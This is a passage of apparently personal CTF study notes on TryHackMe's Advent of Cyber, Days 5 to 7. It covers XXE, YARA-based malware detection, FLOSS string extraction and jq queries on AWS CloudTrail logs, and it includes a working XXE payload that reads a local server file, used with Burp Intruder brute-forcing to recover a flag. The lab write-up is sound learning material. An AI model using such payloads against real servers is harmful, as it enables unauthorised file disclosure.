 <!DOCTYPE foo [<!ENTITY payload SYSTEM "/var/www/html/wishes/wish_1.txt"> ]>
<wishlist>
	<user_id>1</user_id>
	<item>
	       <product_id>&payload;</product_id>
	</item>
</wishlist>
```
- We can now navigate through the wishes by changingn the .txt file
- Send the command to the intruder to run a loop
- At 16, we get the flag THM{Brut3f0rc1n6_mY_w4y}

## What I learned
- XML
- XXE
- Intruder in burpsuite


# Day 6

- Open the Windows registery editor and navigate to current version of Windows  
- Now we learn about YARA, and how it can be used to detect certain malware by searching for particular patterns 
- We run the EDR(End-point Detection and Response), and then the malware
- We get this on the EDR:
```
    YARA Result: SANDBOXDETECTED C:\Users\Administrator\AppData\Local\Temp\2\tmp6450.tmp
Logging to file: C:\Tools\YaraMatches.txt
Event Time: 12/24/2024 07:07:37
Event ID: 1
Event Record ID: 128025
Command Line: C:\Windows\system32\cmd.exe /c reg query "HKLM\Software\Microsoft\Windows\CurrentVersion" /v ProgramFilesDirectory
```
- Now the malwarecan be made stealthier by obsfucation, which essentially encodes the commands that are being run
- Using floss, we now scan through the malware to find relevant strings and store it in the specified file:
    ``` floss.exe C:\Tools\Malware\MerryChristmas.exe |Out-file C:\tools\malstrings.txt ```

- under malstrings.txt, we find the next flag 

## What I learned
- YARA
- Sandboxes
- obsfucation and how this can further be found despite the encoding




# Day 7 

- Brief introduction to AWS, the different services and JQ
- we use this command to filter out all records who match the particular event source(s3.amazonaws.com) and requestParameters.bucketName(wareville-care4wares)
    ``` jq -r '.Records[] | select(.eventSource == "s3.amazonaws.com" and .requestParameters.bucketName=="wareville-care4wares")' cloudtrail_log.json ```

- Our result is still incredibly vast so we cut it down further using:
    ```jq -r '.Records[] | select(.eventSource == "s3.amazonaws.com" and .requestParameters.bucketName=="wareville-care4wares") | [.eventTime, .eventName, .userIdentity.userName // "N/A",.requestParameters.bucketName // "N/A", .requestParameters.key // "N/A", .sourceIPAddress // "N/A"]' cloudtrail_log.json ```
- We then use the next command to further refine the output and make it more readable:
```